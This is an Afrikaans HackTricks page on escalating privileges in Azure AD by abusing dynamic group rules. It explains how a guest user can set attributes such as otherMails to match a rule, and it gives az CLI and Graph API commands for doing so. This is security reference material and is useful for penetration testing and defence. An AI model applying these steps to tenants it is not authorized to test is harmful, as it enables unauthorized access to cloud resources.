 # Az - Dinamiese Groepe Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

**Dinamiese groepe** is groepe wat 'n stel **reëls** geconfigureer het en al die **gebruikers of toestelle** wat aan die reëls voldoen, word aan die groep bygevoeg. Elke keer as 'n gebruiker of toestel **attribuut** **verander** word, word dinamiese reëls **herkontroleer**. En wanneer 'n **nuwe reël** **gecreëer** word, word al die toestelle en gebruikers **gekontroleer**.

Dinamiese groepe kan **Azure RBAC rolle** aan hulle toegeken hê, maar dit is **nie moontlik** om **AzureAD rolle** aan dinamiese groepe toe te voeg nie.

Hierdie funksie vereis 'n Azure AD premium P1 lisensie.

## Privesc

Let daarop dat enige gebruiker standaard gaste in Azure AD kan uitnooi, so, as 'n dinamiese groep **reël** **toestemmings** aan gebruikers gee gebaseer op **attribuut** wat in 'n nuwe **gast** **gestel** kan word, is dit moontlik om 'n gast te **skep** met hierdie attribuut en **privileges te eskaleer**. Dit is ook moontlik vir 'n gast om sy eie profiel te bestuur en hierdie attribuut te verander.

Kry groepe wat dinamiese lidmaatskap toelaat: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Voorbeeld

* **Reël voorbeeld**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
* **Reël beskrywing**: Enige Gaste gebruiker met 'n sekondêre e-pos met die string 'security' sal aan die groep bygevoeg word

Vir die Gaste gebruiker se e-pos, aanvaar die uitnodiging en kyk na die huidige instellings van **daardie gebruiker** in [https://entra.microsoft.com/#view/Microsoft\_AAD\_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Ongelukkig laat die bladsy nie toe om die attribuutwaardes te wysig nie, so ons moet die API gebruik:

{% code overflow="wrap" %}
```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--headers 'Content-Type=application/json' \
--body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
--url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
--query "otherMails"
```
{% endcode %}

## Verwysings

* [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
